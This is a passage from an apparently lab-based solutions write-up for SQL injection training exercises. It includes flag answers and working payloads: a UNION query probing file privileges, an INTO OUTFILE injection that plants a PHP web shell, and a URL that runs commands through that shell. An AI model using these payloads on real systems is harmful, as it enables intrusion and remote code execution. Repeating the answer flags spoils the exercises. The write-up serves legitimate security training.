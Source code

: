 ![[HTB Solutions/CBBH/z. images/b9cf3539e4a71bc5ef95206cbacbd83f_MD5.jpg]]

Answer: `dB_pAssw0rd_iS_flag!`

# Writing Files

## Question 1

### "Find the flag by using a webshell."

Students first need to check whether the current user they are executing queries as can read and write files to any directory on the backend server:

```sql
foo' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![[HTB Solutions/CBBH/z. images/8862b2e792f838207ad50bb510fde1bb_MD5.jpg]]

Since the value for `SECURE_FILE_PRIV` is empty, the current user can read and write files to any directory. Thus, students then need to write a web shell to the web root folder to allow them to execute commands on the backend server:

```sql
foo' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```

Once the web shell has been successfully written into the web root folder, students at last need to browse to the "shell.php" file and specify the command to be executed in the "cmd" parameter (which must be URL-encoded):

```shell
http://STMIP:STMPO/shell.php?cmd=cat%20../flag.txt
```

![[HTB Solutions/CBBH/z. images/e68ba3a40730a24863408badd3ae17e3_MD5.jpg]]

Answer: `d2b5b27ae688b6a0f1d21b7d3a0798cd`

# Skills Assessment - SQL Injection Fundamentals

## Question 1

### "Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer."

After spawning the target machine, students need to navigate to its website's root page to find a login form:
